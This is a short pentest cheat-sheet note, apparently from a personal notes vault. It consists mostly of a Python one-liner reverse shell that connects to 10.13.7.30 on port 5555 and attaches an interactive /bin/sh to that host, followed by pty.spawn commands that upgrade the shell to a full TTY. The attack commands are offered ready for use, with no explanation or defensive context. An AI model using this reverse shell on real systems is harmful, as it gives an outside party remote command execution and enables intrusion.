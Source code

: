 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

python

Reverse Shell

~~~python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.7.30",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

TTY Support for Linux

~~~python
python -c "import pty;pty.spawn('/bin/bash')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~python
python3 -c "import pty;pty.spawn('/bin/bash')"
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
